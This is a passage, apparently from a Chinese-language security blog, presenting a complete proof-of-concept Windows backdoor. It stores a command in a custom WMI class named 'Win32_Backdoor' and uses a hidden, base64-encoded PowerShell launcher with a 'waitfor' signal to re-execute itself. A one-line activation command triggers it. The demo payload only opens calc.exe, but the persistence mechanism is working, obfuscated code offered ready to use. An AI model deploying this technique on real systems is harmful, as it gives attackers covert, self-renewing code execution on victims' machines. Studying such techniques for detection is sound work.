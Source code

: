 ![image](../img/cd97cf790bc7286e84e4e1ff853c3b66.png)

存在bug，导致powershell.exe无法正常退出，进程在后台残留

所以需要添加一段代码，用来结束进程powershell.exe

**注：**

根据逻辑关系，结束powershell.exe的代码要写在`powershell -nop -W Hidden -E ...`之前

### 最终，完整POC代码如下：

后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()| Out-Null
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& taskkill /f /im powershell.exe ```&```& waitfor persist ```&```& powershell -nop -W Hidden -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() | Out-Null `$exec=([WmiClass] ‘Win32_Backdoor’).Properties[‘Code’].Value;

iex $exec | Out-Null` 
```

激活命令：

```
waitfor /s 127.0.0.1 /si persist 
```
